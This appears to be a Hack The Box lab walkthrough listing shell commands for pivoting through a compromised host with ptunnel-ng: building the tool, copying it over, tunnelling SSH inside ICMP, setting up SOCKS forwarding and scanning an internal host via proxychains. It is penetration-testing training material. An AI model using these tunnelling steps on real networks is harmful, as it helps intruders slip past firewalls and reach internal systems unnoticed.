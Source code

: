 #### Cloning Ptunnel-ng
```shell-session
Tachipy@htb[/htb]$ git clone https://github.com/utoni/ptunnel-ng.git
```
#### Building Ptunnel-ng with Autogen.sh
```shell-session
Tachipy@htb[/htb]$ sudo ./autogen.sh 
```

#### Transferring Ptunnel-ng to the Pivot Host
```shell-session
Tachipy@htb[/htb]$ scp -r ptunnel-ng ubuntu@10.129.202.64:~/
```

#### Starting the ptunnel-ng Server on the Target Host
```shell-session
ubuntu@WEB01:~/ptunnel-ng/src$ sudo ./ptunnel-ng -r10.129.202.64 -R22
```
#### Connecting to ptunnel-ng Server from Attack Host
```shell-session
Tachipy@htb[/htb]$ sudo ./ptunnel-ng -p10.129.202.64 -l2222 -r10.129.202.64 -R22
```
#### Tunneling an SSH connection through an ICMP Tunnel
```shell-session
Tachipy@htb[/htb]$ ssh -p2222 -lubuntu 127.0.0.1
```
#### Enabling Dynamic Port Forwarding over SSH
```shell-session
Tachipy@htb[/htb]$ ssh -D 9050 -p2222 -lubuntu 127.0.0.1
```
#### Proxychaining through the ICMP Tunnel
```shell-session
Tachipy@htb[/htb]$ proxychains nmap -sV -sT 172.16.5.19 -p3389
```ls
